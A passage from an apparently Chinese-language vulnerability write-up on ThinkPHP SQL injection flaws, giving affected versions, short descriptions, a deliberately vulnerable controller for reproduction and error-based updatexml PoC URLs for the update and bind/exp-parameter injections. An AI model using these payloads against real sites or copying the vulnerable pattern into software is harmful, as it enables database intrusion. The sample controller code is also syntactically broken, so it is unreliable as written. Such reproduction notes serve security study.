 **Poc/exp:**

```
/index.php/home/user?name=1123&pass=liao&id[0]=bind&id[1]=0%20and%20(updatexml(1,concat(0x7e,(select%20user()),0x7e),1))
```

[![](http://zone.secevery.com/uploads/article/20191220/d1cc9e98eaec43f46e0f6b13113349f5.png)](http://zone.secevery.com/uploads/article/20191220/d1cc9e98eaec43f46e0f6b13113349f5.png)

  **四，ThinkPHP 5.1.7 update 注入**  
**漏洞介绍**  
本次漏洞存在于 Mysql 类的 parseArrayData 方法中由于程序没有对数据进行很好的过滤，将数据拼接进 SQL 语句，导致 SQL 注入漏洞 的产生。

  **影响版本**  
5.1.6<=Thinkphp<=5.1.7(非最新的 5.1.8 版本也可利用)

  **漏洞分析参考：**  
https://www.freebuf.com/column/206233.html

  **漏洞复现（内网环境）**  
**在 \ thinkphp\application\index\controller\Index.php 添加以下代码:**

```
class index

{

    public function indx()

    {

        $password=input('get.pass/a');

        db('user')->where(['id'=>1]->update(['pass'=>&password]));

    }

}
```

**Poc/exp:**

```
/index.php?pass[0]=inc&pass[1]=updatexml(2,concat(0x7e,user()),0)&pass[2]=1
```

[![](http://zone.secevery.com/uploads/article/20191220/d53c716a02ce8753e3e1513915ad17fa.png)](http://zone.secevery.com/uploads/article/20191220/d53c716a02ce8753e3e1513915ad17fa.png)

  **五，ThinkPHP 5.0.15 insert 注入**  
**漏洞介绍**  
本次漏洞存在于 Builder 类的 parseData 方法中。由于程序没有对数据进行很好的过滤，将数据拼接进 SQL 语句，导致 SQL 注入漏洞 的产生。

  **影响版本**  
5.0.13<Thinkphp<=5.0.15，5.1.0<=thinkphp<=5.1.5

  **漏洞分析参考：**  
https://www.freebuf.com/column/205976.html
